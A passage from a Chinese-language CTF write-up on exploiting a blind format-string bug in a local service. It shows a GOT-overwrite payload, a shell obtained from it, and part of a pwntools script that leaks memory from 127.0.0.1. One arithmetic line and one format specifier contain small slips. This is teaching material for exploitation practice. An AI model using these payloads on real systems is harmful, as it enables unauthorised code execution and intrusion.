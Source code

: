 ```
0x08049977
```
然后是格式字符串 `%64c%7$hhn%76c%8hhn%67c%9$hhn%24c%10$hhn`：
```
16  + 64 = 80  = 0x50
80  + 76 = 156 = 0x9c
156 + 67 = 223 = 0xdf
233 + 24 = 247 = 0xf7
```
就这样将 system 的地址写入了内存。

Bingo!!!
```
$ python2 exp.py 
[+] Opening connection to 127.0.0.2 on port 10001: Done
[*] Switching to interactive mode
$ whoami
firmy
```

#### exploit
完整的 exp 如下：
```python
from pwn import *

# context.log_level = 'debug'

def exec_fmt(payload):
    p.sendline(payload)
    info = p.recv()
    return info
# p = remote('127.0.0.1', '10001')
# p.recvline()
# auto = FmtStr(exec_fmt)
# offset = auto.offset
# p.close()

def dump_memory(start_addr, end_addr):
    result = ""
    while start_addr < end_addr:
        p = remote('127.0.0.1', '10001')
        p.recvline()
        # print result.encode('hex')
        payload = "%9$s.AAA" + p32(start_addr)
        p.sendline(payload)
        data = p.recvuntil(".AAA")[:-4]
        if data == "":
            data = "\x00"
        log.info("leaking: 0x%x --> %s" % (start_addr, data.encode('hex')))
        result += data
        start_addr += len(data)
        p.close()
    return result
# start_addr = 0x8048000
# end_addr   = 0x8049000
# code_bin = dump_memory(start_addr, end_addr)
# with open("code.bin", "wb") as f:
#     f.write(code_bin)
#     f.close()
printf_got = 0x8049974

## method 1
def get_printf_addr():
    p = remote('127.0.0.1', '10001')
```